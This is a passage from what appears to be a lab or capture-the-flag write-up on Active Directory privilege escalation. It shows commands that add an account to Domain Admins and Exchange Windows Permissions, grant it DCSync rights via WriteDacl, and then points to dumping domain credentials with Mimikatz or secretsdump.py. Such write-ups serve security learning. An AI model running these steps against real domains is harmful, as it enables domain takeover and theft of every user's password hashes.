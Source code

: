 ![](/img/1571511287322.png)

This gives a full background as to how to abuse this, and if I scroll
down, I see an example:



    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred



I could also use:



    net group "Exchange Windows Permissions" svc-alfresco /add /domain



#### Grant DCSync Privileges

Now I'll use the fact that members of the Exchange Windows Permissions
group have WriteDacl on the domain. Again, looking at the help, it shows
commands I can run:



    $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
    Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync



Once I do that, I can run a DCSync attack, either with
[Mimikatz](https://github.com/gentilkiwi/mimikatz) locally, or with
`secretsdump.py` from my Kali box, since DCSync only requires access to
TCP 445, TCP 135, and a TCP RPC port (49XXX). (How did I know that? I'll
explore in [Beyond Root](#dcsync-ports).)
